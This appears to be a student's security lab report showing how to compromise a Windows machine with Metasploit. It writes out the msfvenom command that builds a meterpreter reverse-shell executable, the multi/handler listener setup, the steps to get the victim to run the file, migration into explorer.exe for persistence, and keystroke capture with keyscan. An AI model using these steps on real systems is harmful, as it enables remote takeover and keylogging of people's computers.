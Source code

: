 ## Name: NARESH KUMAR V
## Reg.No: 212223040126


# Compromising windows using Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig
## OUTPUT:
![image](https://github.com/user-attachments/assets/2f69d906-0b7a-4878-8f96-272bacc10e00)

Create a malicious executable file fun.exe using msfvenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![image](https://github.com/user-attachments/assets/88b39238-d2b6-447d-bc46-08dc30ccab8e)

copy the fun.exe into the apache /var/www/html folder
## OUTPUT
![image](https://github.com/user-attachments/assets/5034838b-e3d2-4f9f-b645-21b5c8ecdcba)

Start apache server
sudo systemctl apache2 start
## OUTPUT
![image](https://github.com/user-attachments/assets/7cb75fb5-6fa0-449a-8b21-e8f8b2fb6fcf)

Check the status of apache2
## OUTPUT
![image](https://github.com/user-attachments/assets/d8909df4-12f7-4a3a-888f-f8891c81c5e9)

Invoke msfconsole:
## OUTPUT:
![image](https://github.com/user-attachments/assets/9d3f4d70-6d31-454a-81e8-105eb0224090)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
## OUTPUT:
![image](https://github.com/user-attachments/assets/ffd46926-d6b7-4ad2-8df4-26cd01a10af1)

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
## OUTPUT:
![image](https://github.com/user-attachments/assets/e92d7605-0cdd-4a60-9fbc-f87490d37a9f)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
## OUTPUT:
![image](https://github.com/user-attachments/assets/2094ca08-d751-4add-af92-0ab1d0d1da53)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

## OUTPUT:
![image](https://github.com/user-attachments/assets/e61066d7-12fb-4942-9f01-3906941f7c47)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
## OUTPUT:
![image](https://github.com/user-attachments/assets/fd50817c-df2b-40e2-bcb3-920d2baa5da0)

keyscan_dump Shows the keystrokes captured so far
## OUTPUT:
![image](https://github.com/user-attachments/assets/a5ce96df-cd40-4772-b531-90cf2462d6bf)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
